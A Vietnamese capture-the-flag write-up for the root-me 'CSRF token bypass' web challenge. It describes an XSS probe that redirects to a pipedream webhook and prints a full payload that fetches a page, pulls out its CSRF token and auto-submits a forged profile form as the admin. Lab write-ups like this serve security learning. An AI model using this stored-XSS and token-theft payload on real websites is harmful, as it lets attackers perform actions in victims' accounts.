



# root-me - CSRF token bypass

Sau khi `register` trang web có phần `Private` chứa flag, tuy nhiên để xem được flag cần được `validate` từ admin.



Ta cần submit form này để có thể validate tuy nhiên chỉ admin mới có quyền, ngoài ra form này dùng csrf token `Single per-page nonce` tức mỗi request check csrf token khác nhau, phải trộm được token này.


Trang web có tính năng `contact`, thử trigger xss request đến `webhook endpoint` thì đúng dính thật.



**Payload**: trigger
```html
<script>window.location.href=".*pipedream.*"</script>
```

Một vài lưu ý nhỏ là bot ở root-me khá lâu đời rồi nên không xài được `fetch` để gửi `post request` nhưng không sao cả, ta dùng `XMLHttpRequest`.

**Payload**: Sau nhiều lần đập đi test lại
```html
<form id="profile" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
	<input id="username" type="hidden" name="username" value="devme">
	<input id="status" type="hidden" name="status" value="on" >
	<input id="token" type="hidden" name="token" value="#" />
</form>

<script>
	var xhttp = new XMLHttpRequest();

	xhttp.onload = function() {
		var results = this.responseText;
		var token = results.match(/name="token" value="(.*)"/)[1];
		document.getElementById("token").setAttribute("value", token);
		document.forms[0].submit(); // submit post form sau khi trộm được token và set attr.
	}

	xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile"); // get request đến profile để trộm token.
	xhttp.send();

</script>
```

Dán vào contact form và ngồi đợi thôi!

**flag**:

